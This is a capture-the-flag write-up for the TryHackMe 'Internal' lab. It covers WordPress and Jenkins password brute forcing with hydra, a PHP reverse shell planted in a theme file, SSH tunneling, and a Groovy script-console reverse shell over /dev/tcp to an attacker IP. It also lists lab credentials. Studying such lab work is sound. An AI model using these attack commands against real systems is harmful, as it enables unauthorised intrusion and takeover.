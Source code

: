 #tryhackme #ctf
# Internal
---

Add `<machine-ip>    internal.thm` in your /etc/hosts

## Nmap
- 22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
- 80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

## Gobuster
- /blog
- /blog/wp-content
- /blog/wp-includes
- /blog/wp-admin
- /javascript
- /phpmyadmin

## WPScan
- Worpress version 5.4.2
- wp-cron.php is not disabled
- Password brute force -> admin:my2boys

_________

Open admin dashboard using creds **admin:my2boys**
Open posts -> private post 

>Don’t forget to reset Will’s credentials. william:arnold147

Theme editor -> 404.php -> change code to php reverse shell
- Run `nc -lvnp <port>` on attacker machine
- Visit http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php
- *Gained shell :)*

_________

Upload linpeas.sh in /tmp (for more info: [[Transferring Files]]) and run
- *Found creds for phpmyadmin -> wordpress:wordpress123*
- *Found creds for phpmyadmin -> phpmyadmin:B2Ud4fEOZmVq*

*Nothing of use here. A misdirection*

Use manual enumeration ([[Linux-PrivEsc#Manual]]):
- *Found wp-save.txt in /opt/*

`cat /opt/wp-save.txt`

> Bill,
>
>Aubreanna needed these credentials for something later.  Let her know you have them and where they are.
>
>aubreanna:bubb13guM!@#123

- *Found creds **aubreanna:bubb13guM!@#123***

SSH into the machine using Aubreanna's creds
`cd /home/aubreanna`
`cat user.txt`
- *[FLAG 1]*

---

`cat jenkins.txt`
> Internal Jenkins service is running on 172.17.0.2:8080

(We cannot access it in our browser)
Need to use SSH tunneling to forward Jenkins \<ip>:\<port> to our attacker machine's \<ip>:\<port>
`ssh -L 6767:172.17.0.2:8080 aubreanna@10.10.75.221`

(Now we can access Jenkins in our browser by visiting localhost:6767)

Brute force Jenkins admin password
- *open burpsuite and capture the form name and request*
- *craft the hydra command using http-post-form*
``
hydra -l admin -P /usr/share/wordlists/rockyou.txt internal.thm -s 6767 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"
``

- *Found password: **spongebob***


Log in to Jenkins with creds **admin:spongebob**
Go to Manage Jenkins -> script console
Write code for java reverse shell in the console

    r = Runtime.getRuntime()
    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<tun0-ip>/<port>;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
    p.waitFor()

Start listener on netcat `nc -lvnp <port>`
- *Gained shell in Jenkins*


Manually enumerate ([[Linux-PrivEsc#Manual]]) and use the find command to locate .txt files (as Jenkins does not run `locate` command)

`find / -name *.txt`

- *Found /opt/note.txt*

`cat /opt/note.txt`

> "Aubreanna,
>
>Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.
>
>root:tr0ub13guM!@#123"

- *Found root creds **root:tr0ub13guM!@#123***

Login to root using the found creds
- *Gained root shell*

`cd /root`
`cat root.txt`
- *[FLAG 2]*

---
